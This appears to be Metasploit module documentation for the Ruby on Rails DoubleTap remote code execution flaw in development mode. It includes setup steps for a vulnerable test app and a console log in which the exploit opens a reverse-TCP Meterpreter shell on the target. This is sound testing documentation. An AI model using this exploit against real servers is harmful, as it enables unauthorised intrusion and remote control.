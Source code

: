 # Ruby on Rails DoubleTap Development Mode secret_key_base Vulnerability

## Background

Ruby on Rails is a server-side web application framework written in Ruby. It is a model-view-controller (MVC) architecture, providing default structures for a database, a web service, and web pages. It is also a popular choice of framework among well known services and products such as Github, Bloomberg, Soundcloud, Groupon, Twitch.tv, and of course, Rapid7s Metasploit.

In development mode, Ruby on Rails versions including 5.2.2 and prior are vulnerable to a remote code execution vulnerability due to a predictable secret_key_base based on the name of the Rails application, and use it to create a signed serialized payload, and gain remote code execution.

## Vulnerable Setup

In order to set up a vulnerable box for testing, do this on a Linux machine (such as Ubuntu), and assuming you already have rvm installed:

```
$ rvm gemset create test
$ rvm gemset use test
$ gem install rails '5.2.1'
$ rails new demo
```

Next, `cd` to demo, and then modify the Gemfile like this:

```
$ echo "gem 'rails', '5.2.1'" >> Gemfile
$ echo "gem 'sqlite3', '~> 1.3.6', '< 1.4'" >> Gemfile
$ echo "source 'https://rubygems.org'" >> Gemfile
$ bundle
```

Next, add a new controller:

```
rails generate controller metasploit
```

And add the index method for that controller (under app/controllers/metasploit_controllers.rb):

```
class MetasploitController < ApplicationController
  def index
    render file: "#{Rails.root}/test.html"
  end
end
```

In the root directory, add a new test.html:

```
echo Hello World > test.html
```

Also, add that new route in config/routes.rb:

```
Rails.application.routes.draw do
  resources :metasploit
end
```

And finally, start the application (since no mode is specified, by default, it is development mode):

```
rails s -b 0.0.0.0
```

## Demonstration

### Server

```
$ rails server -b 0.0.0.0 
=> Booting Puma
=> Rails 5.2.1 application starting in development 
=> Run `rails server -h` for more startup options
Puma starting in single mode...
* Version 3.12.1 (ruby 2.6.0-p0), codename: Llamas in Pajamas
* Min threads: 5, max threads: 5
* Environment: development
* Listening on tcp://0.0.0.0:3000
Use Ctrl-C to stop
```

### Metasploit

```
msf5 exploit(multi/http/rails_double_tap) > check
[+] 172.16.249.141:3000 - The target is vulnerable.
msf5 exploit(multi/http/rails_double_tap) > exploit

[*] Started reverse TCP handler on 172.16.249.1:4444 
[*] Attempting to retrieve the application name...
[*] The application name is: Demo
[*] Stager ready: 433 bytes
[*] Sending serialized payload to target (1250 bytes)
[*] Sending stage (985320 bytes) to 172.16.249.141
[*] Meterpreter session 1 opened (172.16.249.1:4444 -> 172.16.249.141:62572) at 2019-04-25 16:29:43 -0500
[+] Deleted /tmp/LsvSGK.bin
[+] Deleted /tmp/tSJfp.bin

meterpreter > getuid
Server username: uid=1000, gid=1000, euid=1000, egid=1000
meterpreter > pwd
/home/sinn3r/demo
meterpreter >
```

